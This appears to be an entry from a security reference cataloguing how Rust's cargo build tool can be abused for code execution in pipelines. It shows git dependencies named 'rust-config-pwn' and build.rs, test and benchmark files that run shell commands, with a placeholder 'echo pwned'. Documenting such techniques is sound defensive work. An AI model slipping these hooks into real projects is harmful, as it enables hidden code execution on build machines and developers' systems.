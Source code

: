 ```yaml
---
title: Cargo
tags:
  - cli
  - eval-sh
  - config-file
references: 
- https://doc.rust-lang.org/cargo/commands/cargo-build.html
files: [.cargo/cargo.toml,Cargo.toml,build.rs]
---
```


`cargo` is the official tool used to compile and run rust projects.

## Build config

Adding dependencies in `Cargo.toml`, it is possible to gain RCE via the methods defined in their respective section.
  - `cargo build`: `dependencies`, `build-dependencies`
  - `cargo run`: `dependencies`
  - `cargo test`: `dependencies`, `dev-dependencies`

```toml
[dependencies]
rust-config-pwn = { git = "https://github.com/boost-rnd/lotp-sandbox-rust-dep.git" }

[build-dependencies]
rust-config-pwn = { git = "https://github.com/boost-rnd/lotp-sandbox-rust-dep.git" }

[dev-dependencies]
rust-config-pwn = { git = "https://github.com/boost-rnd/lotp-sandbox-rust-dep.git" }
```

## Build scripts

`cargo build` will execute `build.rs` in the root directory before building the project. The name is defined in `Cargo.toml` as `package.build`.
Here is `build.rs` to RCE:

```rust
fn main() {
    let _ = std::process::Command::new("sh").arg("-c").arg("echo pwned").output().expect("failed to execute process");
}
```

*Note: The build process doesn't have access to the environnement variable from the bash session.


## Run

`cargo run` execute the code under `src/main.rs` which allows RCE:

```rust
fn main() {
    let _ = std::process::Command::new("sh").arg("-c").arg("echo pwned").output().expect("failed to execute process");
}
```

## Test

`cargo test` executes every file under `tests/` as crates. This allows for RCE via `tests/pwn.rs`:

```rust
#[test]
fn pwn() {
    let _ = std::process::Command::new("sh").arg("-c").arg("echo pwned").output().expect("failed to execute process");
}
```

## Benchmarks

`cargo bench` executes every file under `benches/` as crates. This allows for RCE via `benches/pwn.rs`:

```rust
#![feature(test)]
extern crate test;
#[cfg(test)]
mod tests {
    #[bench]
    fn pwn(_b: &mut test::Bencher) {
        let _ = std::process::Command::new("sh").arg("-c").arg("echo pwned").output().expect("failed to execute process");
    }
}
```

